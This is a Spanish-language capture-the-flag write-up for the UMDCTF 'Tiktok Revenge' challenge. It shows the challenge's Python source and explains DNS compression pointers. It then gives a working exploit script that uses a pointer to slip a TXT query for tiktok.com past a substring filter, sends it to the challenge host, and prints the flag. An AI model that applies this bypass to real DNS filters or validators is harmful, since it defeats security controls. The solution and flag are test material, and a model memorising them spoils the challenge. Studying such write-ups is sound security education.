 # Tiktok Revenge

Codigo fuente:
```python
#!/usr/local/bin/python -u

import subprocess
import sys
import socket

from flag import flag

dns_ip_addr = "127.0.0.1"
dns_port = 25565

subprocess.run(
        ['/app/dnsmasq',
         '-x', 'dnsmasq.pid',
         '-p', f'{dns_port}',
         '--txt-record', f'tiktok.com,{flag}'])

size = sys.stdin.buffer.read(4)
size = int.from_bytes(size)

req = sys.stdin.buffer.read(size)

if b'tiktok\x03com' in req.lower():
    print("Sorry, TikTok isn't available right now. A law banning TikTok has been enacted in the U.S. Unfortunately, that means you can't use TikTok for now. We are fortunate that President Trump has indicated that he will work with us on a solution to reinstate TikTok once he takes office. Please stay tuned!")
else:
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(req, (dns_ip_addr, dns_port))
    resp = sock.recv(1024)
    print(resp)
```

Ahora la validacion es mas dura, para pasarla debemos hacer uso de los "punteros de compresion", una caracteristica de los servidores DNS para acortar consultas:

https://datatracker.ietf.org/doc/html/rfc1035 (Section 4.1.4. Message compression)

https://www.rfc-editor.org/rfc/rfc9267.html#name-null-terminator-placement-v

Basicamente al examinar una consulta si el servidor DNS encuentra un octeto con los dos primeros bits a \x01 los trata como un puntero:

```
The pointer takes the form of a two octet sequence:

    +--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+
    | 1  1|                OFFSET                   |
    +--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+
```

El puntero salta a la posicion determinada por el offset consumiendo bytes hasta encontrar un \x00, entonces retorna a su posicion actual:

Exploit:
``` python
import socket
header = (
        b'\x12\x34'         # ID aleatorio
        b'\x01\x00'      # Flags (RD=1)
        b'\x00\x01'      # QCOUNT
        b'\x00\x00'      # ANCOUNT
        b'\x00\x00'      # NSCOUNT
        b'\x00\x00'      # ARCOUNT
        )
q = (
         b"\x06tiktok"
   ----- b"\xC0\x19"
   |     b"\x00\x10"      # tipo TXT
   |     b"\x00\x01"      # clase IN
   ----> b"\x03com\x00"
     )
wire = header + q

# Enviar consulta al servicio
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect(('challs.umdctf.io',32301))
    s.send(len(wire).to_bytes(4) + wire)
    response = s.recv(1024)

# Extraer la flag de la respuesta DNS
print("Request:", wire)
print("Response:",response.decode())
```

`UMDCTF{we_remembered_pointer_compression_but_forgor_about_case_insensitivity_:skull:}`






